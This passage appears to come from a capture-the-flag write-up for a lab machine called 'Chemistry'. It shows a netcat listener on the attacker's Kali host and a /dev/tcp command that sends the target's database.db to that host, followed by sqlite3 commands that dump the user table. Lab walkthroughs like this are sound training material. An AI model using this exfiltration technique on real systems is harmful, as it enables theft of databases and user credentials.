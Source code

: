 <br />
<br />

Let's bring it to our machine and inspect this database:

```bash
Kali> nc -nlvp 4444 > database.db
Chemistry> cat database.db > /dev/tcp/10.10.16.4/4444
```

![](/assets/Chemistry/6.png)
<br />
<br />

Let's inspect the **database**:

```bash
sqlite3 database.db
.tables
select * from user;
```
